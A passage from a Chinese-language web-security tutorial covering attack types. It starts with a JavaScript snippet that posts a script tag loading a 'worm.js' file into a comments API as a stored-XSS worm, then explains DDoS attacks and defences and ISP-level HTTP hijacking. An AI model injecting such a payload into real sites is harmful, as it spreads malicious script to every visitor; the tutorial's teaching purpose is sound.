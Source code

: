 const attack = '<script src="http://localhost:3001/worm.js"></script>';
$.post('/api/comments', { content: 'haha' + attack });
3. DDOS攻击
分布式拒绝服务(Distribute Denial Of Service)

黑客控制大量的肉鸡向受害主机发送非正常请求，导致目标主机耗尽资源不能为合法用户提供服务
验证码是我们在互联网十分常见的技术之一。不得不说验证码是能够有效地防止多次重复请求的行为。
限制请求频率是我们最常见的针对 DDOS 攻击的防御措施。其原理为设置每个客户端的请求频率的限制
增加机器增加服务带宽。只要超过了攻击流量便可以避免服务瘫痪
设置自己的业务为分布式服务，防止单点失效
使用主流云系统和 CDN（云和 CDN 其自身有 DDOS 的防范作用）
优化资源使用提高 web server 的负载能力
4. HTTP劫持 #
在用户的客户端与其要访问的服务器经过网络协议协调后，二者之间建立了一条专用的数据通道，用户端程序在系统中开放指定网络端口用于接收数据报文，服务器端将全部数据按指定网络协议规则进行分解打包，形成连续数据报文。
用户端接收到全部报文后，按照协议标准来解包组合获得完整的网络数据。其中传输过程中的每一个数据包都有特定的标签，表示其来源、携带的数据属性以及要到何处，所有的数据包经过网络路径中ISP的路由器传输接力后，最终到达目的地，也就是客户端。
HTTP劫持是在使用者与其目的网络服务所建立的专用数据通道中，监视特定数据信息，提示当满足设定的条件时，就会在正常的数据流中插入精心设计的网络数据报文，目的是让用户端程序解释“错误”的数据，并以弹出新窗口的形式在使用者界面展示宣传性广告或者直接显示某网站的内容。
参考